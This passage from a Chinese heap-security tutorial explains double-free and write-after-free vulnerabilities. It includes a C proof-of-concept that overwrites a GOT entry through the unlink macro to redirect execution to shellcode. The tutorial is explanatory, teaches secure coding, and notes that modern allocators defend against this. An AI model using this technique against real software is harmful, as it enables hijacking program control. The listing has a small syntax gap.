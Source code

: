 因此对first的二次释放（第20行）构成双重释放漏洞。当第21行分配sixth块时，malloc所返回的指针与first所指向的内存块相同。strcpy函数的got地址减去12（还记得上面的unlink技术嘛）以及外壳代码（shellcode）位置被复制到这块内存中（第22-23行），然后在第24行相同的内存块被再一次分配给seventh块。这一次，当内存块被分配后，unlink宏将外壳代码(shellcode)的地址复制到全局偏移表中strcpy函数的地址处，并且覆写了外壳代码开头的几个字节。

当第25行调用strcpy时，程序的控制权就被转移到了外壳代码(shellcode)



这些漏洞比较难以利用，因为它需要很精确的内存配置并且利用的细节因堆的不同实现而不同。

大多数现代堆管理器实现了安全解链，通过增加检查确保双链表不变的方法，间接解决了双重释放的可利用性。在断开连接前检查这些不变使得可以尽早检测到数据结构的损坏。然而，双重释放在编程中仍然必须避免！



### 写入已释放的内存

当一个内存被释放后，如果不把其指针置为NULL，那么该内存是被系统回收了，但是其指针仍然指向该内存，此时的指针就称为野指针。如果再向该指针写入数据，就会引发任意地址写的漏洞。

**覆写释放的内存漏洞**

```c
 1. static char *GOT_LOCATION = (char *)0x0804c98c;
 2. static char shellcode[] =
 3.   "\xeb\x0cjump12chars_"     /* jump */
 4.   "\x90\x90\x90\x90\x90\x90\x90\x90"
 5.
 6. int main(void){
 7.   int size = sizeof(shellcode);
 8.   void *shellcode_location;
 9.   void *first, *second, *third, *fourth;
10.   void *fifth, *sixth, *seventh;
11.   shellcode_location = (void *)malloc(size);
12.   strcpy(shellcode_location, shellcode);
13.   first = (void *)malloc(256);
14.   second = (void *)malloc(256);
15.   third = (void *)malloc(256);
16.   fourth = (void *)malloc(256);
17.   free(first);
18.   free(third);
19.   fifth = (void *)malloc(128);		//设置初始条件
20.   *((void **)(first+0))=(void *)(GOT_LOCATION-12);
21.   *((void **)(first+4))=(void *)shellcode_location;
22.   sixth = (void *)malloc(256);		//覆写
23.   strcpy(fifth, "something");		//触发
24.   return 0;
25. } 
```

上面的程序与双重释放漏洞代码如出一辙。不过这个程序没有两次释放，而是在释放first块（17行）后，又在第20、21行对该块进行了写入操作。后续过程与双重释放完全一样，如果看不懂，回到上面复习双重释放漏洞吧！





## 微软的RtlHeap

Windows的堆是内存中一个神秘、耐人寻味的地方。因为微软并没有完全公开其操作系统中堆管理的细节。
